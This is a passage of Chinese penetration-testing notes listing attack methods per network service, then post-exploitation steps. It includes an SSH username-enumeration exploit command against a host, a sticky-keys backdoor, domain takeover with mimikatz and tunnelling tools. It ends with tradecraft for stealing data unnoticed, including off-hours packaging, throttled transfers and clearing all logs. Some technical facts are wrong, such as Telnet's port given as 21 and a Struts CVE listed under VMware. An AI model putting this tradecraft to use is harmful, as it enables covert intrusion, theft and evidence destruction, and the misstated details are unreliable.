	+ 爆破
	+ 后门
	+ 漏洞：28退格漏洞、OpenSSL漏洞
- 常见漏洞
	+ CVE-2018-15473
		- OpenSSH 7.7前存在一个用户名枚举漏洞，通过该漏洞，攻击者可以判断某个用户名是否存在于目标主机。
		- auxiliary(scanner/ssh/ssh_enumusers
		- https://github.com/Rhynorater/CVE-2018-15473-Exploit.git
		- ``python sshUsernameEnumExploit.py --port 22 --userList /home/kali/Downloads/rockyou.txt 192.168.100.103``
- 命令
	+ 公钥登录: ``ssh -i id_rsa root@142.93.198.56``


Telnet服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Telnet协议是TCP/IP协议族中的一员，是Internet远程登陆服务的标准协议和主要方式。

- 默认端口：21
- 攻击方法
	+ 爆破
	+ 嗅探

Windows远程连接
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：3389
- 攻击方法
	+ 爆破
	+ Shift粘滞键后门：5次shift后门
	+ 利用ms12-020攻击3389端口
	
VNC服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
VNC（Virtual Network Computing），为一种使用RFB协议的显示屏画面分享及远程操作软件。此软件借由网络，可发送键盘与鼠标的动作及即时的显示屏画面。

- 默认端口：5900+桌面ID（5901；5902）
- 攻击方式：
	+ 爆破：弱口令
	+ 认证口令绕过：
	+ 拒绝服务攻击：（CVE-2015-5239）
	+ 权限提升：（CVE-2013-6886）
	
SMTP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
smtp：邮件协议，在linux中默认开启这个服务，可以向对方发送钓鱼邮件！

- 默认端口：25（smtp）、465（smtps）
- 攻击方式
	+ 爆破：弱口令
	+ 未授权访问
	
POP3协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：109（POP2）、110（POP3）、995（POP3S）
- 攻击方式：
	+ 爆破；弱口令
	+ 未授权访问

DNS服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：53
- 攻击方式：
	+ 区域传输漏洞
	
IMAP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：143（imap）、993（imaps）
- 攻击方式：
	+ 爆破：弱口令
	+ 配置不当
	
SNMP协议
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：161
- 攻击方式
	+ 爆破：弱口令
	
DHCP服务
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 默认端口：67&68、546（DHCP Failover做双机热备的）
- 攻击方式：
	+ DHCP劫持

VMware
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
使用 VMware vCloud 可将现有数据中心内的虚拟基础架构资源池化，并将其作为基于目录的服务交付。通过与云计算基础架构的最佳平台 VMware vSphere 配合使用，VMware vCloud Director 可为客户提供构建安全的私有云，从而改变 IT 部门交付和管理基础架构服务以及用户访问和使用这些服务的方式。

一般组织中很多独立安装的 Esxi 形式的私有云，或独立部署的虚拟化系统。

- 漏洞
	+ 主机逃逸
	+ CVE-2017-5638
	
OpenStack
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
OpenStack是基础设施即服务（IaaS）软件，让任何人都可以自行创建和提供云计算服务。此外，OpenStack也用作创建防火墙内的“私有云”（Private Cloud），提供机构或企业内各部门共享资源。

- 漏洞，有漏洞但是POC基本没有。检查时候可以参考安全的配置实践。
	+ 权限绕过漏洞
	+ 信息泄露
	+ 代码执行漏洞
	
Docker
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Docker是一个开放源代码软件项目，让应用程序布署在软件容器下的工作可以自动化进行，借此在Linux操作系统上，提供一个额外的软件抽象层，以及操作系统层虚拟化的自动管理机制[1]。

Docker利用Linux核心中的资源分脱机制，例如cgroups，以及Linux核心名字空间（name space），来创建独立的软件容器（containers）。这可以在单一Linux实体下运作，避免引导一个虚拟机造成的额外负担。

Linux核心对名字空间的支持完全隔离了工作环境中应用程序的视野，包括进程树、网络、用户ID与挂载文件系统，而核心的cgroup提供资源隔离，包括CPU、内存、block I/O与网络。

从0.9版本起，Dockers在使用抽象虚拟是经由libvirt的LXC与systemd - nspawn提供界面的基础上，开始包括libcontainer函数库做为以自己的方式开始直接使用由Linux核心提供的虚拟化的设施。

- 安全问题（很少有漏洞的POC，安全检查也是基于最佳实践和官方安全建议进行）
	+ CVE-2015-3630 1.6.0 Docker Libcontainer 安全绕过漏洞
	+ CVE-2015-3627 1.6.1 Libcontainer和Docker Engine 权限许可和访问控制漏洞
	+ CVE-2015-3630 1.6.1 Docker Engine 安全绕过漏洞
	+ CVE-2014-9358 1.3.3 Docker 目录遍历漏洞
	+ CVE-2014-9357 1.3.2 Docker 权限许可和访问控制漏洞
	+ CVE-2014-6408 1.3.1 Docker 权限许可和访问控制漏洞
	+ CVE-2014-5277 1.3.0 Docker和docker-py 代码注入漏洞
	+ 内核漏洞（Kernel exploits） 容器是基于内核的虚拟化，主机（host）和主机上的所有容器共享一套内核。如果某个容器的操作造成了内核崩溃，那么反过来整台机器上的容器都会受到影响。
	+ 拒绝服务攻击（Denial-of-service attacks） 所有的容器都共享了内核资源，如果一个容器独占了某一个资源（内存、CPU、各种ID），可能会造成其他容器因为资源匮乏无法工作（形成DoS攻击）。
	+ 容器突破（Container breakouts） Linux的namespace机制是容器的核心之一，它允许容器内部拥有一个PID=1的进程而在容器外部这个进程号又是不一样的（比如1234）。现在问题在于如果一个PID=1的进程突破了namespace的限制，那么他将会在主机上获得root权限。
	+ 有毒镜像（Poisoned images） 主要是考虑到镜像本身的安全性，没太多好说的。

Elsaticsearch
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Elasticsearch 是一个分布式的搜索和分析引擎，可以用于全文检索、结构化检索和分析，并能将这三者结合起来。Elasticsearch 基于 Lucene 开发，现在是使用最广的开源搜索引擎之一，Wikipedia、Stack Overflow、GitHub 等都基于 Elasticsearch 来构建他们的搜索引擎。

- 默认端口：9200、9300
- 攻击方法：
	+ 未授权访问；
	+ 远程命令执行；
	+ 文件遍历；
	+ 低版本webshell植入；
	
hadoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hadoop是一个开源的框架，可编写和运行分布式应用处理大规模数据，是专为离线和大规模数据分析而设计的，并不适合那种对几个记录随机读写的在线事务处理模式。

Hadoop=HDFS（文件系统，数据存储技术相关）+ Mapreduce（数据处理），Hadoop的数据来源可以是任何形式，在处理半结构化和非结构化数据上与关系型数据库相比有更好的性能，具有更灵活的处理能力，不管任何数据形式最终会转化为key/value，key/value是基本数据单元。

用函数式变成Mapreduce代替SQL，SQL是查询语句，而Mapreduce则是使用脚本和代码，而对于适用于关系型数据库，习惯SQL的Hadoop有开源工具hive代替。 Hadoop就是一个分布式计算的解决方案。

Hive
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Hive是Hadoop家族中一款数据仓库产品，Hive最大的特点就是提供了类SQL的语法，封装了底层的MapReduce过程，让有SQL基础的业务人员，也可以直接利用Hadoop进行大数据的操作。

Sqoop
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Apache Sqoop（SQL-to-Hadoop） 项目旨在协助 RDBMS 与 Hadoop 之间进行高效的大数据交流。

用户可以在 Sqoop 的帮助下，轻松地把关系型数据库的数据导入到 Hadoop 与其相关的系统 (如HBase和Hive)中；同时也可以把数据从 Hadoop 系统里抽取并导出到关系型数据库里。除了这些主要的功能外，Sqoop 也提供了一些诸如查看数据库表等实用的小工具。

HBase
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
HBase建立在HDFS之上，提供高可靠性、高性能、列存储、可伸缩、实时读写的数据库系统。

它介于NoSQL和RDBMS之间，仅能通过行键(row key)和行键序列来检索数据，仅支持单行事务(可通过Hive支持来实现多表联合等复杂操作)。主要用来存储非结构化和半结构化的松散数据。

与Hadoop一样，HBase目标主要依靠横向扩展，通过不断增加廉价的商用服务器，来增加计算和存储能力。

Spark
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Spark是UC Berkeley AMP lab所开源的类Hadoop MapReduce的通用的并行计算框架，Spark基于map reduce算法实现的分布式计算，拥有Hadoop MapReduce所具有的优点；但不同于MapReduce的是Job中间输出和结果可以保存在内存中，从而不再需要读写HDFS。


后渗透
----------------------------------------

提权
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- https://github.com/SecWiki/windows-kernel-exploits
- https://github.com/SecWiki/linux-kernel-exploits

域攻击
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- 确定目标系统和应用程序
- 识别潜在的漏洞
- 利用漏洞获得初始访问
- 提升权限
- 定位域管理进程或者获取远程系统上的本地身份验证令牌
- 通过本地管理员的密码Hash，破解密码，使用mimikatz工具抓取密码验证运行在远程系统上的域名管理进程
- 迁移域管理进程
- 创建一个域管理员

建立后门/端口转发
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
- LCX：windows下面的端口转发软件。
- sockscap：主要针对windows平台的端口转发和代理转发。
- proxifier：跨平台的端口转发和代理工具，适用windows，linux，
- Macos平台，代理转发利器
- Rsscoks：＊nix平台下的端口转发和代理工具，配合proxychains好用到不行。
- Proxychains：＊nix平台下老牌的socks代理工具，一般的系统都会自带，谁用谁知道。
- ssh proxy：通过ssh做端口代理和转发，一般＊nix系统都自带。
- netcat：socat，hping，在很多情况下可以做端口转发和数据代理转发。
- metasploit：metasploit的后渗透模块中有不少代理模块和端口转发模块

传输文件
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

制作后门/木马程序
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

日志清理
----------------------------------------

注意事项
----------------------------------------
- 检查内网监控防范系统
- 谨慎使用ARP软件和大面积扫描软件
- 使用目标网络中无空闲机器，作为打包对象
- 使用内网大流量机器作为传输对象，如wsus服务器、视频会议系统
- 使用临时机器打包、数据传输，不要使用已控机器，可利用wmi脚本或wmic远程操作
- 禁止使用psexec.exe
- 打包时避开用户工作时间
- 控制卷包大小<100M
- 选择用户常用压缩软件
- 错峰下载数据
- 控制传输流量
- 清除所有操作日志
- 登录主机前先看看管理员是否在

